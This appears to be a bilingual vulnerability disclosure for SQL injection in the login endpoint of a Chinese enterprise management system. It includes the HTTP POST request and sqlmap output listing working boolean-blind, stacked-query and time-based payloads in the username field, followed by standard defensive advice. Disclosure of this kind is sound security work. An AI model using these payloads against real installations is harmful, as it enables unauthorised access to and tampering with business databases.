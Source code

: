 超易企业管理系统 sql注入漏洞

官网：https://www.cysoft168.com/

超易企业管理系统 存在SQL注入；‌SQL注入漏洞是一种针对数据库驱动的应用程序的安全漏洞攻击技术。攻击者通过在应用程序的输入字段中插入或“注入”恶意的SQL代码，从而实现对数据库的非法访问和操作。这种漏洞形成的原因主要是在数据交互过程中，前端的数据传入后端时，没有作严格的验证过滤，导致传入的“数据”拼接到了SQL语句中，被数据库当作SQL语句的一部分执行。这使数据面临被脱库、恶意破坏篡改甚至造成整个系统权限沦陷等一系列危害。注入攻击的本质是把用户输入的数据当作代码执行，造成注入攻击有两个关键条件：用户能够控制输入，并且输入被直接拼接到SQL查询语句中

------

SQL injection exists in super easy enterprise management system. ‌SQL Injection vulnerability is a security vulnerability attack technique that targets database-driven applications. Attackers achieve illegal access to and manipulation of databases by inserting or "injecting" malicious SQL code into the application's input fields. The main reason for the formation of this vulnerability is that in the process of data interaction, when the front-end data is passed into the back-end, there is no strict verification filter, resulting in the incoming "data" spliced into the SQL statement, which is executed by the database as part of the SQL statement. This makes the data face a series of hazards such as dewarehousing, malicious destruction and tampering, and even the whole system authority fall. The essence of injection attacks is to execute user input data as code. There are two key conditions for injection attacks: the user can control the input, and the input is directly concatenated into the SQL query statement

![2](2.png)

POST data

```http
POST /ajax/Login.ashx?Date=%271721821198459%27 HTTP/1.1
Host: 127.0.0.1:8092
Content-Length: 92
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=njeyytrv0o0nxlh2rzqpupoj
Connection: close

username=admin&password=admin123&loginguid=d6d17e17-d214-4a2e-88a7-739a7226c005&logintype=pc
```

![3](3.png)

sqlmap:

```
sqlmap identified the following injection point(s) with a total of 152 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 9646=9646-- XcBn&password=admin123&loginguid=d6d17e17-d214-4a2e-88a7-739a7226c005&logintype=pc

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: username=admin';WAITFOR DELAY '0:0:5'--&password=admin123&loginguid=d6d17e17-d214-4a2e-88a7-739a7226c005&logintype=pc

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: username=admin' WAITFOR DELAY '0:0:5'-- FWZy&password=admin123&loginguid=d6d17e17-d214-4a2e-88a7-739a7226c005&logintype=pc
---
```

![4](4.png)

Methods of defending against SQL injection include:

Use Preparedstatements, which have built-in capabilities to handle SQL injection.
Strengthen the verification and filtering of user input to ensure the security of data input.
Parameter value passing: Do not write variables directly into SQL statements. You must pass related variables by setting corresponding parameters.
Use security parameters: Set specific SQL security parameters during database design.
The permissions of common users and system administrators should be strictly distinguished to avoid giving unnecessary database permissions.
Hierarchical management: Strictly controls user permissions and grants only necessary operation permissions.